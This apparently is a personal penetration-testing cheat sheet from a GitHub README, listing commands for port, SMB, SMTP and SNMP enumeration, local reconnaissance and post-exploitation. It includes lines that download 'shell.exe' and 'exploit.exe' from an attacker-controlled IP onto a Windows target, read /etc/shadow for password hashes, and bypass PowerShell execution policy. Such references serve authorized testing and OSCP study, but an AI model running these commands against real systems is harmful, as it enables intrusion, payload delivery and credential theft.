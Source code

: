 # Hacking-Cheatsheet
In this repo I collect all commands, links, techniques and tricks I found during my work as pentester, hacker, OSCP student and hack the box fan.

- [External Enumeration](#external-enumeration)
  - [OSINT](#osint)
  - [Port-Scanning](#port-scanning)
  - [SMB-Enumeration](#smb-enumeration)
  - [SMTP-Enumeration](#smtp-enumeration)
  - [SNMP-Enumeration](#snmp-enumeration)
- [File Transfer and File Downloads](#file-transfer-and-file-downloads)
  - [Windows](#windows)
  - [Python Webserver](#python-webserver)
- [Creating Exploits](#creating-exploits)
  - [Buffer Overflows](#buffer-overflows)
- [Local Enumeration](#local-enumeration)
  - [Local Linux Enumeration](#local-linux-enumeration)
  - [Local Windows Enumeration](#local-windows-enumeration)
- [Post Exploitation](#post-exploitation)
  - [Linux Post Exploitation](#linux-post-exploitation)
  - [Windows Post Exploitation](#windows-post-exploitation)


# External Enumeration

## OSINT
### Crawl words from website for passwordlist
```bash
cewl <domain> -m 6 -w words.txt
```

## Port-Scanning
Scan all ports with service detection
```bash
nmap -v -A -p- <Target-IP>
```

## SMB-Enumeration

### Enum4Linux
```bash
enum4linux -a <IP>
```

### rpcclient
```bash
rpcclient -U "" <Target IP>
```
enter empty password

Commands in rpcclient console:
- srvinfo: Identify OS Versions
- enumdomusers: List of Usernames on this server
- getdompwinfo: Displays SMB password policy

## SMTP-Enumeration
SMTP-Enumeration with netcat
```bash
for user in $(cat typical_usernames_SMTP_Enumeration.txt); do echo VRFY $user |nc -nv -w 1 <Target-IP> 25 2>/dev/null |grep ^"250";done
```

## SNMP-Enumeration

Enumerate set of IPs for different SNMP communities
```bash
onesixtyone -c community_names.txt -i ips.txt
```
examples for community names:
- public


Get list of running programs
```bash
snmpwalk -c public -v1 <Target-IP> 1.3.6.1.2.1.25.4.2.1.2
```

Get list of open ports
```bash
snmpwalk -c public -v1 <Target-IP> 1.3.6.1.2.1.6.13.1.3
```

Get list of installed software
```bash
snmpwalk -c public -v1 <Target-IP> 1.3.6.1.2.1.25.6.3.1.2
```


# File Transfer and File Downloads

## Windows
### Download files with certutil
```bash
certutil.exe -urlcache -f http://<ip>:<port>/<filename> <localfilename>
```
Example:
```bash
certutil.exe -urlcache -f http://10.10.14.37:8080/shell.exe reverse_shell.exe
```

### Downlaod files with Powershell
```cmd
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.30.5/exploit.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url, $file) >>wget.ps1
```

Execute File with: [Execute Powershell File, bypass all policies](#execute-powershell-file-bypass-all-policies)

## Python Webserver
Create webserver listening to port 8080 offering files from current working directory
```bash
python3 -m http.server 8080
```
# Creating Exploits

## Creating Exploits with msfvenom

## Buffer Overflows

### Create unique pattern
Create a unique pattern to identify correct position for buffer overflow
```bash
/usr/share/metasploit-framework/tools/pattern_create.rb <# bytes>
```

# Local Enumeration

## Local Linux Enumeration

### System information/version
Show information about kernel and linux system
```bash
uname -a
```

Show linux version
```bash
cat /etc/issue
```

### Find local users
```bash
cat /etc/passwd
```

### Password hashes
```bash
cat /etc/shadow
```

### Find world writable files
```bash
find / -perm -2 ! -type l -ls 2>/dev/null
```

## Local Windows Enumeration

### Open Ports local
```cmd
netstat -an
```

### Check permission of executable
```bash
icacls <filename>
```

# Post Exploitation
## Linux Post Exploitation
### Create tty console with python
```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```
```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

## Windows Post Exploitation
### Execute Powershell file, bypass all policies
```cmd
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File file.ps1
```

### RDP Connection from Linux Host to Windows target
```cmd
rdesktop -u <User> -p <Password> <Target-IP>
```
